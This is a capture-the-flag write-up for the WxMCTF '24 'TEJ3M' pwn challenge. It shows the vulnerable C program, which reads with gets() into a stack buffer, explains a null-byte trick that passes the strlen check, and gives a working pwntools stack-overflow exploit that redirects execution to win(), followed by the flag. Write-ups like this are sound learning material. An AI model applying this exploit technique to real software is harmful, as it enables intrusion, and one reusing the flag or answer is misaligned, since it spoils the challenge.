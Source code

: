 https://ctftime.org/event/2179/

# WxMCTF '24 Pwn 2 - TEJ3M - PWN

Here's my TEJ3M assignment! We're learning how to use C, and I think it's pretty easy! My teacher tells us gets is unsafe, but I think he doesn't know how to error trap!

## Solution

```
$ file assgn1_2o3BvZ6 
assgn1_2o3BvZ6: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=60098334b0e5ba23faa42e6e2b56503534b62ad7, for GNU/Linux 3.2.0, not stripped
```

`acb525f6dd105f90f9b7ad7eb02b50d08ae06eb65a0ee437cbd5721bdb9e5cf3  assgn1_2o3BvZ6`

`127c779aca8b937603ba6c2985b53ad1a6b4773322f8ddb0948d2e119f2d3c4b  assgn1_ScZuUx0.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win(){
    system("cat flag.txt");
}

void func(){
    char buf[040];
    while(1) {
        puts("Enter your info: \n");
        gets(buf);
        if(strlen(buf) < 31) {
            puts("Thank you for valid data!!!\n");
            break;
        }
        puts("My teacher says that's unsafe!\n");
    }
}

void main() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    func();
}
```

`func/0x08049245`
- reads with `gets` into a buffer on the stack with no canary
- in order to escape the while loop we must ensure that the `strlen` of our payload is less than 0x1f bytes
	+ this is easily doable with `b"0" * 0x2c`

`win/0x08049216`
- cats the flag with `system`

```
from pwn import *

REMOTE_IP = "8c7e7da.678470.xyz"
REMOTE_PORT = 30310

elf = ELF("./assgn1_2o3BvZ6")

p = remote(REMOTE_IP, REMOTE_PORT)

p.readuntil(b"Enter your info: \n\n")

payload = b"0" * 0x2c
payload += p32(elf.sym["win"])

p.sendline(payload)

p.sendline()

p.interactive()
```

## Flag
`wxmctf{m00dl3_m45t3rm1nd!!!}`
